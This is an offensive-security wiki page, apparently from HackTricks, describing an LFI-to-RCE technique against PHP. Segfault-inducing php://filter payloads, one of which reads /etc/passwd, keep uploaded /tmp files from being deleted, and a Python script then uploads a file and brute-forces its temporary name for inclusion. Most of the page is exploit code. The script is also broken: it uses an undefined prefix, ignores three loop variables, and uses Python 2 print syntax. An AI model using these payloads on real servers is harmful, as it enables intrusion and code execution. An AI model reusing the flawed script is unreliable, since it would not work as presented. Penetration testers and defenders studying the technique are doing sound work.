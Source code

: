 # LFI2RCE via Segmentation Fault

{{#include ../../banners/hacktricks-training.md}}

According to the writeups [https://spyclub.tech/2018/12/21/one-line-and-return-of-one-line-php-writeup/](https://spyclub.tech/2018/12/21/one-line-and-return-of-one-line-php-writeup/) (second part) and [https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/rJlfZva0m?type=view](https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/rJlfZva0m?type=view), the following payloads caused a segmentation fault in PHP:

```php
// PHP 7.0
include("php://filter/string.strip_tags/resource=/etc/passwd");

// PHP 7.2
include("php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA");
```

You should know that if you **send** a **POST** request **containing** a **file**, PHP will create a **temporary file in `/tmp/php<something>`** with the contents of that file. This file will be **automatically deleted** once the request was processed.

If you find a **LFI** and you manage to **trigger** a segmentation fault in PHP, the **temporary file will never be deleted**. Therefore, you can **search** for it with the **LFI** vulnerability until you find it and execute arbitrary code.

You can use the docker image [https://hub.docker.com/r/easyengine/php7.0](https://hub.docker.com/r/easyengine/php7.0) for testing.

```python
# upload file with segmentation fault
import requests
url = "http://localhost:8008/index.php?i=php://filter/string.strip_tags/resource=/etc/passwd"
files = {'file': open('la.php','rb')}
response = requests.post(url, files=files)


# Search for the file (improve this with threads)
import requests
import string
import threading

charset = string.ascii_letters + string.digits

host = "127.0.0.1"
port = 80
base_url = "http://%s:%d" % (host, port)


def bruteforce(charset):
    for i in charset:
        for j in charset:
            for k in charset:
                for l in charset:
                    for m in charset:
                        for n in charset:
                            filename = prefix + i + j + k
                            url = "%s/index.php?i=/tmp/php%s" % (base_url, filename)
                            print url
                            response = requests.get(url)
                            if 'spyd3r' in response.content:
                                print "[+] Include success!"
                                return True


def main():
    bruteforce(charset)

if __name__ == "__main__":
    main()
```

{{#include ../../banners/hacktricks-training.md}}

